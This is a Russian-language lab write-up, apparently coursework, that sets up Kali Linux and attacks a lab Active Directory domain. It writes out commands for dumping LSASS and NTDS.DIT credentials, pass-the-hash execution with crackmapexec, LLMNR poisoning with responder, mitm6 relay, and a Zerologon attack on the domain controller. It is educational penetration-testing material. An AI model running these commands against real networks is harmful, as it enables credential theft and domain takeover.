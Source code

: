 
# Настройка Kali Linux

## 1. Сетевая конфигурация

На Kali Linux используется автоматическое получение IP-адреса по DHCP.

Интерфейс `eth0` получает настройки автоматически от маршрутизатора Cisco:

- Примерный IP-адрес: `10.0.68.X` (из пула DHCP)
- Маска подсети: `255.255.255.0`
- Шлюз по умолчанию: `10.0.68.1`
- DNS-серверы:
  - `10.0.68.5` (контроллер домена)
  - `8.8.8.8` (публичный DNS от Google)

> ✅ DHCP настроен на маршрутизаторе Cisco, Kali получает доступ в интернет и может взаимодействовать с Active Directory.

### Вывод команды `ip -a`

![ip a](https://github.com/vit81g/Cybersecurity_HSE/blob/main/HomeWorks/Network%20and%20System%20Security/HW26/screenshots/4_2_kali_ip_a.jpg)

---

## 2. Установка инструментов

Для проведения атак на Active Directory планируется использовать:

- `mitm6` — атаки на протоколы IPv6
- `impacket` — набор инструментов для работы с AD (например, `secretsdump`, `wmiexec`, `smbexec`)
- `responder` — захват хэшей через NBNS и LLMNR

Установка mitm6:
```bash
sudo apt update
sudo apt install mitm6
```

---

## 3. Прочее

- Kali подключён к виртуальному коммутатору VMware
- Получает сетевые настройки от маршрутизатора Cisco (DHCP)
- Доступ в интернет активен


# Конфигурация Kali Linux и выполнение атак 

## 4. Настройка Kali

Kali настроен на получение IP-адреса по DHCP.

В настройках сети был также указан публичный DNS:
```bash
DNS: 8.8.8.8
```

Проверка IP-адреса:
![ip a](../screenshots/4_2_kali_ip_a.jpg)

---

## 5. Извлечение паролей из памяти

После получения дампа `lsass.DMP` выполнена команда:
```bash
pypykatz lsa minidump lsass.DMP
```

Результат:
![pypykatz](../screenshots/5_5_kali_pypykatz.jpg)

---

## 6. Доступ к \C$ разделу, вытаскивание NTDS.DIT и SYSTEM

```bash
smbclient \\10.0.68.5\c$ -U lab68.com/ADMpetr
```
![smbclient](../screenshots/6_1_kali_smbclient_ADMpetr.jpg)

Затем с помощью `impacket-secretsdump`:
```bash
impacket-secretsdump -ntds "/home/kali/Active Directory/ntds.dit" \
  -system /home/kali/registry/SYSTEM LOCAL >> ntds_impacket.txt
```

![ntds.dit](../screenshots/6_4_kali_impacket_ntds.jpg)

Аутентификация пользователя через NTLM-хеш:
```bash
crackmapexec smb 10.0.68.5 -u ADMpetr -H <NT_hash> -x ipconfig
```

![crackmapexec](../screenshots/6_5_kali_crackmapexec_NTLM.jpg)

---

## 7. Отравление кеша LLMNR и NBT-NS

Атака с использованием `responder`:
```bash
sudo responder -I eth0
```

![responder](../screenshots/7_3_kali_responder.jpg)

---

## 8. Настройка общего доступа на Windows 10 и перехват SMB-сессии

На Windows была создана открытая папка `SHARE`:
![share](../screenshots/8_4_win10_share.jpg)

Настройка атаки с использованием `mitm6` и перехват сессии с `impacket-smbserver`:
```bash
sudo mitm6 -d lab68
impacket-smbserver -smb2support Share /home/kali/111
```

![mitm6 + smbserver](../screenshots/8_6_kali_mitm_smb.jpg)

---

## 9. Атака Zerologon

Запуск атаки:
```bash
python3 set_empty_pw.py POD68-WS2016 10.0.68.5
```
![zerologon](../screenshots/9_2_kali_zerologon_run.jpg)

Получение хеша через impacket:
```bash
impacket-secretsdump -hashes :<ntlm_hash> 'LAB68/POD68-WS2016$@10.0.68.5'
```

![impacket hash](../screenshots/9_3_kali_hash_v1.jpg)

---

## 10. Восстановление состояния

После атаки Zerologon необходимо восстановить пароль для учетной записи контроллера домена:
```bash
rpcclient -U "" 10.0.68.5
> setuserinfo2 "POD68-WS2016$" 23 "<StrongPassword123!>"
```

---



